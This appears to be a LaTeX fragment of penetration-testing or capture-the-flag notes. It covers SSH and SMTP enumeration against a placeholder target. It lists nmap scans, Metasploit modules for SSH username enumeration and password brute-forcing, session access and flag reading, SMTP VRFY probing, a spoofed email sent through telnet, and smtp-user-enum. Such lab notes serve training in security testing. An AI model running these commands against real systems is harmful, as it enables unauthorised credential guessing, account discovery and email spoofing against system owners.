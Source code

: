 \begin{notebox}

\section{SSH Enumeration}
\label{sec:ssh_enum}

\begin{termbox}
# Check SSH version
nmap -sV -p 22 target_ip

# Enumerate valid usernames (SSH user enum)
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS target_ip
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
run

# Brute-force SSH
use auxiliary/scanner/ssh/ssh_login
set RHOSTS target_ip
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
set VERBOSE false
run

# If credentials found, access session
sessions
sessions -i session_number

# Inside session
ls
whoami
/bin/bash -i     # Upgrade to interactive bash if ls returns nothing
find / -name "flag"
cat /flag
\end{termbox}

\section{SMTP Enumeration}
\label{sec:smtp_enum}

SMTP (port 25) can be used to enumerate valid email addresses using the
 command, which many mail servers respond to.

\begin{termbox}
# Find which port SMTP is running on
nmap -sV --script banner target_ip

# Connect manually
nc target_ip 25

# SMTP commands
HELO attacker.xyz
EHLO attacker.xyz
VRFY admin@openmailbox.xyz          # Check if user exists
VRFY commander@openmailbox.xyz

# Send fake email via telnet (demonstration only)
telnet target_ip 25
HELO attacker.xyz
mail from: admin@attacker.xyz
rcpt to: root@openmailbox.xyz
data
Subject: Test
Hello from attacker.
.

# Command-line user enumeration
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t target_ip


\end{termbox}
\end{notebox}
